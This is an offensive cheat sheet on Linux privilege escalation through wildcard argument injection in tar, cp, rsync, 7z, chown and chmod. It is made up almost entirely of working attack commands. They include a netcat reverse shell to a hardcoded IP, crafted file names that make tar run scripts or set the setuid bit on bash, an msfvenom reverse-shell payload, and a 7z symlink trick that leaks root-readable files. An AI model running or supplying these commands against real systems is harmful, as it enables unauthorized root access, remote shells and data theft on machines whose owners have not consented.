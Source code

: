 # PrivEsc via Wildcards

{% hint style="danger" %}
If you find a wildcard (**\***) after the 2 dashes (**--**), the attack will not work because the 2 dashes mean that the following input cannot be treated as parameters. This does NOT happen with the 7z command.
{% endhint %}

## tar (wildcard)

You can exploit this using: [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py)

More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

```bash
# Method 1:
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
# Method 2:
touch -- "--checkpoint-action=exec=chmod +s \$(which bash)"
echo "" > --checkpoint=1
tar cf archive.tar *
# Method 3:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf -o shell.elf
touch -- --checkpoint=1
touch -- --checkpoint-action=exec=shell.elf
```

## cp (wildcard)

```bash
cp * /dev/shm/ # Vulnerable

cd /tmp
cp /bin/bash .
chmod 4777 bash 
touch -- --preserve=mode
# Wait for it to run: cp * /dev/shm/
/dev/shm/bash -p
```

## rsync (wildcard)

Rsync has a parameter that allows us to execute commands:

```bash
Interesting rsync option from manual:
 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine
```

Exploit:

```bash
echo -n 'chmod +s /bin/bash' > shell.sh
touch -- "-e sh shell.sh"
```

You can exploit this using: [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py)

More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z (wildcard)

In **7z** even using `--` before `*` (note that `--` means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file, so if a command like the following one is being executed by root:

```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```

And you can create files in the folder were this is being executed, you could create the file `@root.txt` and the file `root.txt` being a **symlink** to the file you want to read:

```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

Then, when **7z** is execute, it will treat `root.txt` as a file containing the list of files it should compress (thats what the existence of `@root.txt` indicates) and when it 7z read `root.txt` it will read `/file/you/want/to/read` and **as the content of this file isn't a list of files, it will throw and error** showing the content.

## chown, chmod (wildcard)

You can **indicate which file owner and permissions you want to copy for the rest of the files:**

```bash
touch "--reference=/my/own/path/filename"
```

You can exploit this using: [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py)

More info in **** [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)
